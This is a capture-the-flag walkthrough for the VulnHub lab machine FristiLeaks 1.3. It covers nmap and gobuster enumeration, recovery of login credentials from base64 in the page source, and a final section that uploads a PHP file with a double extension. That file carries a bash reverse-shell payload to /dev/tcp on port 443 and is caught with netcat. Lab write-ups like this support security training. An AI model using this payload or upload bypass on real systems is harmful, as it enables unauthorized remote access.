







# FristiLeaks: 1.3

## Machine Information

- **Machine:** FristiLeaks: 1.3
- **Platform:** VulnHub
- **Download:** https://www.vulnhub.com/entry/fristileaks-13,133/


---

## Lab Setup

1. Import the OVA file.
2. Click **Finish**.
3. Replace the MAC address with the value provided in the machine description.
4. Start the virtual machine.


---

# Network Scanning

## Discover the Target

```bash
nmap -sn 192.168.2.0/24
```


---

## Full Nmap Scan

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.168
```



---

## Scan All TCP Ports (Optional)

```bash
nmap -v -p- 192.168.2.168
```

---

## Aggressive Enumeration

```bash
nmap -sC -sV -A 192.168.2.168
```

---

## HTTP Enumeration

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.168
```


---

# Web Enumeration

Visit:

```
http://192.168.2.168
http://192.168.2.168/robots.txt
```

---

## Directory Bruteforce

```bash
gobuster dir \
-u http://192.168.2.168 \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php,txt,html,bak,zip \
-t 50
```



---

## Interesting Directories

```
http://192.168.2.168/beer/
http://192.168.2.168/cola/
```


Manually browse to:

```
http://192.168.2.168/fristi/
```



---

## View Source

```text
view-source:http://192.168.2.168/fristi/
```


---

## Base64 Discovery

A Base64-encoded value is present in the page source.

Decode it using:

```
https://onlinepngtools.com/convert-base64-to-png
```


---

## Login

Recovered credentials:

```text
Username: eezeepz
Password: keKkeKKeKKeKkEkkEk
```


Successful login:

```
http://192.168.2.168/fristi/login_success.php
```



---

# Reverse Shell

Navigate to:

```
http://192.168.2.168/fristi/upload.php
```


Create a payload file.

```bash
nano shell.php.png
```

Add the payload:

```php
<?php `/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.219/443 0>&1'`; ?>
```



Upload the file.


The upload succeeds.



Start a listener.

```bash
nc -nlvp 443
```

Trigger the uploaded file.

```
http://192.168.2.168/fristi/uploads/shell.php.png
```

A shell is obtained.

